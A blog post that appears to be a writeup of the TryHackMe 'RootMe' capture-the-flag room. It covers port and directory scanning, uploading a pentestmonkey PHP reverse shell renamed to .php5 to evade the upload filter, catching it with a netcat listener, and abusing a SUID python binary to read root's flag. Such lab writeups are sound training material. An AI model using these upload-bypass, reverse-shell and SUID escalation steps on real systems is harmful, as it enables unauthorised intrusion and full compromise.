 ```yaml
---
layout: post
title:  "RootMe tryhackme room writeup"
author: R4yan
date:   2021-02-25 21:03:36 +0530
permalink: /2021-2-25-rootme/
categories: Genel
tags: [CTF Writeups]
---
```



RootMe tryhackme room writeup

<img src="https://i.imgur.com/Wp8VFx7.png" width="100" height="100">

Author : [R4yan](https://tryhackme.com/p/R4yan)

## TASK 2

1) start a nmap scan 

{% highlight bash %}
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-09 23:03 BST
Nmap scan report for 10.10.132.201
Host is up (0.60s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
{% endhighlight %}

the ports open are : 2

2) apache version is here `Apache httpd 2.4.29 ((Ubuntu))` so 2.4.29

3) service on port 22 is ssh

4) start a directory bruteforce tool, i used [dirsearch.py](https://github.com/maurosoria/dirsearch)

5) the hidden directories : 
6) 
{% highlight bash %}
[11:27:22] 301 -  312B  - /css  ->  http://10.10.179.137/css/
[11:27:35] 200 -  616B  - /index.php
[11:27:35] 200 -  616B  - /index.php/login/
[11:27:36] 301 -  311B  - /js  ->  http://10.10.179.137/js/
[11:27:49] 301 -  314B  - /panel  ->  http://10.10.179.137/panel/
[11:27:49] 200 -  732B  - /panel/
[11:27:57] 403 -  278B  - /server-status
[11:27:57] 403 -  278B  - /server-status/
[11:28:06] 301 -  316B  - /uploads  ->  http://10.10.179.137/uploads/
[11:28:06] 200 -744B  - /uploads/
{% endhighlight %}

the hidden directory is /panel/ and the interesting one is uploads

# Task 3
1) download a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the LHOST and the port
{% highlight bash %}
wget "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
{% endhighlight %}
then rename it to bypass file upload restrictions into .php5
{% highlight bash %}
mv php-reverse-shell.php rev.php5
{% endhighlight %}
then upload it and start a netcat listener
{% highlight bash %}
nc -lvnp LPORT
{% endhighlight %}
and now open the rev shell from your browser by visiting http://$IP/uploads/rev.php5

and now you should have a reverse shell

to stabilize your shell run :
{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}
and
{% highlight bash %}
python -c 'import os; os.system("/bin/bash")'
{% endhighlight %}
now get user.txt
{% highlight bash %}
cat /var/www/user.txt
THM{********************}
{% endhighlight %}
# Task 4 priv esc

1) after running

{% highlight bash %}
find / -user root -perm /4000
{% endhighlight %}
you'll see in the list also python that can be used to read files with higher permissions

answer : /usr/bin/python

3) get the root flag by simply running

{% highlight bash %}
python -c 'print(open("/root/root.txt").read())'
{% endhighlight %}
